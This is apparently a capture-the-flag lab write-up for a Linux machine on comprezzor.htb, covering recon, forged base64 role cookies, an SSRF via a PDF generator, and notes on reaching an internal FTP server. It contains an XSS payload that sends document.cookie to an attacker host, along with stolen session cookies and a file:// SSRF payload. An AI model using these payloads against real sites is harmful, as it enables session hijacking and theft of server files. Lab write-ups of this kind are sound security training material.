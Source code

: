 ## Linux Machine


## Recon 

[+] + Port 22,80

## Foothold

[+] + In comprezzor.htb code source -> report.comprezzor.htb

[+] + in order to report a bug you have to be authentified 

[+] + redirection to auth.comprezzor.htb 

[+] + after registration login with account

```base64  eyJ1c2VyX2lkIjogNiwgInVzZXJuYW1lIjogInRyeXRoaXNvbmUiLCAicm9sZSI6ICJ1c2VyIn18MDFiMDBiYWFlODhjMTk4ZWE4NTc4Nzc4MWJjN2U3NDc1NDAzMGFiMmJhNjVjZmRkNDUxODIwN2U1ZmE5MjZmNw==
```

[+] + base64 decoded :
```{"user_id": 6, "username": "trythisone", "role": "user"}|01b00baae88c198ea85787781bc7e74754030ab2ba65cfdd4518207e5fa926f7
```

[+] + ffuf -> http://dashboard.comprezzor.htb/ 
	      http://auth.comprezzor.htb/
	      http://report.comprezzor.htb

		{"user_id": 6, "username": "trythisone", "role": "admin"}|01b00baae88c198ea85787781bc7e74754030ab2ba65cfdd4518207e5fa926f7
		e3VzZXJfaWQ6IDYsIHVzZXJuYW1lOiB0cnl0aGlzb25lLCByb2xlOiBhZG1pbn18MDFiMDBiYWFlODhjMTk4ZWE4NTc4Nzc4MWJjN2U3NDc1NDAzMGFiMmJhNjVjZmRkNDUxODIwN2U1ZmE5MjZmNwo==

		{"_flashes":[{" t":["success","Logged in successfully!"]}]{"role": "admin"}}

		eyJfZmxhc2hlcyI6W3siIHQiOlsic3VjY2VzcyIsIkxvZ2dlZCBpbiBzdWNjZXNzZnVsbHkhIl19XXsicm9sZSI6ICJhZG1pbiJ9fQo=

[1] + XSS in report form : 

[+] + Payload :<img src=x onerror=fetch("http://10.10.14.39:8000/c="+document.cookie);>
[+] + Stolen cookie : eyJ1c2VyX2lkIjogMiwgInVzZXJuYW1lIjogImFkYW0iLCAicm9sZSI6ICJ3ZWJkZXYifXw1OGY2ZjcyNTMzOWNlM2Y2OWQ4NTUyYTEwNjk2ZGRlYmI2OGIyYjU3ZDJlNTIzYzA4YmRlODY4ZDNhNzU2ZGI4

[1] + Dirbusting with cookies shows:
      >> /resolve   Post method only Internal server error 
      >> /backup    Get Method only  Redirect to /

[2] + I can set report to high priority , maybe I have to sneak an xss img that load in description only for admin  ## Doesn't work at first figured I had to restart machine again
      
[+] + Stolen cookie : eyJ1c2VyX2lkIjogMSwgInVzZXJuYW1lIjogImFkbWluIiwgInJvbGUiOiAiYWRtaW4ifXwzNDgyMjMzM2Q0NDRhZTBlNDAyMmY2Y2M2NzlhYzlkMjZkMWQxZDY4MmM1OWM2MWNmYmVhMjlkNzc2ZDU4OWQ5

[2] + Being admin gets access to http://dashboard.comprezzor.htb/create_pdf_report
	I can dowload a file from my attacker machine and it transforms it to pdf , I can maybe download internal files and display output in pdf 

[2] + SSRF 
[+] + Payload : file://proc/self/cmdline >> python3/app/code/app.py

so im in python maybe python reverse shell could do it 

after circulating in /proc/self I found /app/setup.sh in /proc/self/mount 

		#!/bin/sh apt update apt-get -y install wkhtmltopdf echo "172.21.0.1 ftp.local" >> /etc/hosts pip3 install --no-cache-dir -r
		requirements.txt python3 /app/code/app.py

seems like this script bash installs wkhtmltopdf and add in ftp.local 

Found this exploit of wkhtmltopdf online : https://exploit-notes.hdks.org/exploit/web/security-risk/wkhtmltopdf-ssrf/ 

/etc/hostname : web.local

/etc/hosts : 			
		127.0.0.1 localhost ::1 localhost ip6-localhost ip6-loopback fe00::0 ip6-localnet ff00::0 ip6-mcastprefix ff02::1 ip6-
		allnodes ff02::2 ip6-allrouters 172.21.0.2 web.local web 172.21.0.1 ftp.local
		
		
so theres an ftp here 

And since Im web.local that means im 172.21.0.2 , maybe I gotta go to 172.21.0.1 specially because I believe im in docker in /etc/passwd


SSRF primitive once more to gain access to the FTP server within the machine
use welcome_note.txt and id_rsa to leak user acc using the ssh-keygen -p -f trick

 
